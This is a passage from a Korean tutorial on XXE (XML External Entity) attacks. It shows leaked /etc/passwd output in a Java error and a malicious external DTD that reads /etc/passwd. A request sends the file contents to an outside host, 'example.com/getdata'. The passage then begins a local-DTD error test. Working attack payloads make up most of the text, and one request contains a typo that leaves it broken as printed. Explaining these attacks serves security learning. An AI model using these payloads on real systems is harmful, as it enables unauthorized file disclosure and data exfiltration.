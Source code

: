 ```
java.io.FileNotFoundException: /empty/root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/usr/bin/nologin
daemon:x:2:2:daemon:/:/usr/bin/nologin

(No such file or directory)
```

다만 이 결과를 돌려주지 않는 경우가 많기 때문에 우리는 외부 DTD파일을 실행하는 코드를 사용하게 됩니다.

---

# 외부 DTD 로 Error Based XXE 실행

**http://example.com/exploit.dtd**

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///empty/%file;'>">
%eval;
%error;
```

**Request**

```
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % data SYSTEM “http://example.com/exploit.dtd”>
    <!ENTITY % exploit "<!ENTITY &#x25; external SYSTEM 'http://example.com/getdata?data=%data;'>
    ">
    %expoit;
    %external;
]>
```

---

# 외부 DTD 로드 불가, 에러는 출력 해줄때 LFI Attack

위 exploit의 핵심은 외부 DTD 공격이 안되나 error를 출력해준다면 Local DTD로 exploit이 가능합니다.

쉽게 설명하자면 SQL Injection 공격과 비슷하다고 생각하시면 됩니다.

## Error Test

아래와 같이 XXE Playload를 작성하여 보냈다고 가정합니다.

**Request**

```
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % file SYSTEM "file:///tmp/aaa">
    %file;
]>
<message></message>
```
